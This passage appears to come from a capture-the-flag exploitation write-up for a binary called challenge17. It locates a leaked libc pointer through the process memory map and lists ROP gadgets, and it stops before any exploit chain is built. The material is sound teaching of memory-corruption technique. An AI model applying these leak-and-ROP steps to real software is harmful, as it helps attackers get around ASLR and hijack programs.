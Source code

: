 And also a pointer into LIBC at offeset 0x60:

* 0a 7d d3 39 7d 7f 00 00: probably LIBC, 0x7f7d39d37d0a

How do we know? Lets check the memory mappings of the parent process:
```
~/challenges/challenge17$ ps axw | grep challenge17
   7924 pts/1    S+     0:00 ./challenge17
   8163 pts/4    S+     0:00 grep challenge17

~/challenges/challenge17$ cat /proc/7924/maps
...
7f7d39d11000-7f7d39d36000 r--p 00000000 00:4c 1746                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7d39d36000-7f7d39e81000 r-xp 00025000 00:4c 1746                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7d39e81000-7f7d39ecb000 r--p 00170000 00:4c 1746                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7d39ecb000-7f7d39ecc000 ---p 001ba000 00:4c 1746                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7d39ecc000-7f7d39ecf000 r--p 001ba000 00:4c 1746                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f7d39ecf000-7f7d39ed2000 rw-p 001bd000 00:4c 1746                       /usr/lib/x86_64-linux-gnu/libc-2.31.so
...
7f7d39f0a000-7f7d39f0b000 rw-p 00000000 00:00 0 
7ffca0a98000-7ffca0ab9000 rw-p 00000000 00:00 0                          [stack]
```

So `0x7f7d39d37d0a` looks like its in the `r-x` module of libc. 


## ROP Gadgets

Lets find our rop gadgets. The binary itself does not have all of them: 

```
~/challenges/challenge17$ python3 print-gadgets.py challenge17
[*] '/root/challenges/challenge17/challenge17'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
...
Useful gadgets:
None
Gadget(0x4014ab, ['pop rdi', 'ret'], ['rdi'], 0x10)
Gadget(0x4014a9, ['pop rsi', 'pop r15', 'ret'], ['rsi', 'r15'], 0x18)
None
None
```

So, lets take them all from LIBC. Lets check the bindings:
